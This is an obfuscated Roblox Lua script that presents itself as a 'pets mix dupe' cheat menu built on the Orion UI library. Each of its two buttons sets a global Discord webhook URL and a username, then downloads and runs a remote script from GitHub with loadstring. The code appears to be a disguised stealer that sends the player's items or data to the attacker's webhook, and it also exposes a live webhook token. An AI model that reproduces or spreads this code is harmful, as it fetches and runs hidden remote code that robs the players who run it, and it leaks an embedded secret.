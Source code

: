 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.1.6) ~  Much Love, Ferib 

]]--

local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v12,v13)local v14={};for v17=2 -1, #v12 do v6(v14,v0(v4(v1(v2(v12,v17,v17 + 1)),v1(v2(v13,1 + ((v17-(1 + 0))% #v13),1 + 0 + ((v17-(1 + 0))% #v13) + (1 -(793 -(490 + 303))))))%(390 -134)));end return v5(v14);end local v8=loadstring(game:HttpGet("https://raw.githubusercontent.com/shlexware/Orion/main/source"))();local v9=v8:MakeWindow({[v7("\172\21\46\15","\226\116\67\106\107\173\174")]=v7("\80\17\230\244\124\87\242","\20\34\144\212"),[v7("\163\200\187\130\208\153\196\178\142\245\134","\235\161\223\231\128")]=false,[v7("\243\82\32\62\60\88\206\85\63\60","\160\51\86\91\127\55")]=true,[v7("\255\64\34\21\213\72\10\28\208\75\41\1","\188\47\76\115")]=v7("\106\222\244\99\65\131\228\73\73","\46\237\130\32")});local v10=v9:MakeTab({[v7("\245\169\30\25","\187\200\115\124")]=v7("\237\239\165\41\158\90\201","\170\138\200\109\235\42\172"),[v7("\12\234\11\208","\69\137\100\190\101\165\103\168")]="rbxassetid://4483345998",[v7("\215\159\31\112\6\36\234\162\20\113\22","\135\237\122\29\111\81")]=false});local v11=v9:MakeTab({[v7("\138\168\160\59","\196\201\205\94")]=v7("\228\186\1\229\200\157\155\3\224\192","\176\200\96\129\173"),[v7("\137\205\35\195","\192\174\76\173\91\48\203")]="rbxassetid://4483345998",[v7("\234\162\228\81\44\207\189\206\82\41\195","\186\208\129\60\69")]=false});v11:AddButton({[v7("\255\17\55\131","\177\112\90\230\25\65\228")]=v7("\194\205\223\242\229\153\234\242\240\221\219\173\194\218\223\237","\145\185\190\128"),[v7("\195\248\199\139\90\207\43\76","\128\153\171\231\56\174\72\39")]=function()local v15=(0 -0) -0;while true do if (v15==(1 + 0)) then loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/petsmixdupe/main/PSX.lua",true))();break;end if (v15==(1741 -(1097 + 644))) then local v18=0 + 0;while true do if (v18==0) then UserName=v7("\71\228\167\192\47\22\8\254\81\232\189\221\116\73\66","\55\129\211\179\70\123\112\161");WebHook="https://discord.com/api/webhooks/1057394943808782336/xJa88X3DL8PmH3Yu1sT96RVc26A03GZtYQFNV4jijwIVOs4DQRsbLAQN3pKFQxRbysqs";v18=1;end if (v18==(1 + 0)) then v15=(1 + 1) -(1 + 0);break;end end end end end});v11:AddButton({[v7("\197\243\214\189","\139\146\187\216\88\40\150\82")]=v7("\250\75\226\218\131\253\77\236\206\198\132\108\238\203\206","\169\63\141\170\163"),[v7("\123\181\52\139\126\124\243\193","\56\212\88\231\28\29\144\170")]=function()local v16=881 -(744 + 137);while true do if (v16==(1 + 0)) then loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/petsmixdupe/main/PSX.lua",true))();break;end if (v16==(1152 -(739 + 413))) then local v19=0;while true do if (v19==(2 -(1564 -(291 + 1272)))) then v16=1;break;end if (v19==(0 -0)) then UserName=v7("\200\201\174\52\53\247\0\231\202\179\41\50\168\74\138","\184\172\218\71\92\154\120");WebHook="https://discord.com/api/webhooks/1057394943808782336/xJa88X3DL8PmH3Yu1sT96RVc26A03GZtYQFNV4jijwIVOs4DQRsbLAQN3pKFQxRbysqs";v19=1;end end end end end});
